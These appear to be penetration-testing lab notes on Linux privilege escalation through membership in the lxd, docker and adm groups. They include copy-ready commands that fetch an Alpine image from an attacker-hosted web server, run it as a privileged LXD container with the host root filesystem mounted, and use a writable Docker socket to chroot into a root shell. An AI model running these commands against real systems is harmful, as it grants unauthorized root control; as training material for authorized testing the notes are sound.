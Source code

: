 ## LXC / LXD

Linux Containers (LXC) is an OS-level virtualisation technology that allows multiple isolated Linux environments to run on a single host while sharing the same kernel.

The user we are logged in as needs to be in the `lxd` group:

```bash
id
uid=1000(htb-student) gid=1000(htb-student) groups=1000(htb-student),116(lxd)
```
#### Priv Esc:

From Attacking system:

```bash
sudo git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder/
ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md

sudo python3 -m http.server 80
```

On Target:

```bash
wget http://10.10.15.35/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
cd /mnt/root/root/
```
## Docker

Docker is a popular open-source tool that provides a portable and consistent runtime environment for software applications. It uses containers as isolated environments in user space that run at the operating system level and share the file system and system resources.

```bash
id
uid=1001(htb-student) gid=1001(htb-student) groups=1001(htb-student),118(docker)
```

View images:

```bash
docker image ls
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
ubuntu       latest    5a81c4b8502e   19 months ago   77.8MB
```
#### Docker Socket

A case that can also occur is when the Docker socket is writable. Usually, this socket is located in `/var/run/docker.sock`. However, the location can be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

There are a number of other ways to priv esc to root.
## ADM

This group can read logs in the `/var/log` directory

```bash
secaudit@NIX02:~$ id
uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```



